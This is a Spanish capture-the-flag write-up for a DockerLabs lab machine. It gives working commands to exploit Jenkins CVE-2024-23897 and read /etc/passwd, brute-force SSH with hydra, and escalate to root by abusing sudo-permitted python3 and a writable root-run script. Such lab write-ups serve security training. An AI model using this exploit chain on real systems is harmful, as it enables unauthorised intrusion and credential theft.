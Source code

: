 # Máquina Secretjenkins

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
8080/tcp open  http-proxy syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p22,8080 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE    REASON
22/tcp   open   ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94fb28597fae02c0564607338cac5285 (ECDSA)
|_  256 43075030bb28b0739b7c0c4e3fc9bf02 (ED25519)
8080/tcp open   http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/f6863828-3c2c-4274-927b-ab323dffe3d4)

***

## Explotación

Hay un proyecto en **github** que maneja una vulnerabilidad específica para esta versión de **Jenkins**. Link al exploit -> [Exploit](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

Seguimos los pasos, y lo primero de todo es descargarse el **jenkins-cli.jar** para poder explotar un **LFI**:

```
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/766d44d1-f252-40b5-8452-e220c7372428)

Con este archivo ejecutamos el siguiente comando para tratar de leer el **/etc/passwd**:

```shell
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"
```

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/2fe80803-8b96-4ec2-9383-14930637ce4e)

Tenemos el **LFI** y vemos un usuario **pinguinito** y **bobby**. Tras probar con fuerza bruta al **ssh** sobre ambos usuarios, encontramos la contraseña de **bobby**.

```shell
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
-------------------------------------------------------------------
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
```

Estamos dentro !

***

## Escalada de privilegios

```shell
sudo -l
--------------
User bobby may run the following commands on 1e9c73d6dd94:
    (pinguinito) NOPASSWD: /usr/bin/python3
```

Podemos ejecutar **python** como el user **pinguinito**. Podemos abusar de este con:

```shell
sudo -u pinguinito /usr/bin/python3
-> import os
-> os.system("bash")
whoami
-------------------------------------
pinguinito
```

Volvemos a hacer **sudo -l**:

```shell
sudo -l
-----------------
User pinguinito may run the following commands on 1e9c73d6dd94:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Podemos ejecutar un script que hay en **opt** como **root**.

![](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/a28f6928-28e9-43f3-ab5b-cc7f2c4584ae)

```shell
ls -l /opt/script.py
------------------------------------
-r-xr--r-- 1 pinguinito root 272 May 11 08:22 /opt/script.py
```

Observamos que somos el propietario del script, podemos darle permisos, modificarlo, y ejecutarlo como **root**:

```shell
chmod 744 /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo "import os" > /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ echo 'os.system("bash")' >> /opt/script.py 
pinguinito@1e9c73d6dd94:/opt$ sudo /usr/bin/python3 /opt/script.py
```

!\[\[Pasted image 20240511190820.png]]

```shell
root@1e9c73d6dd94:/opt# whoami
root
```

Hemos alcanzado el nivel de privilegios máximos en el sistema !
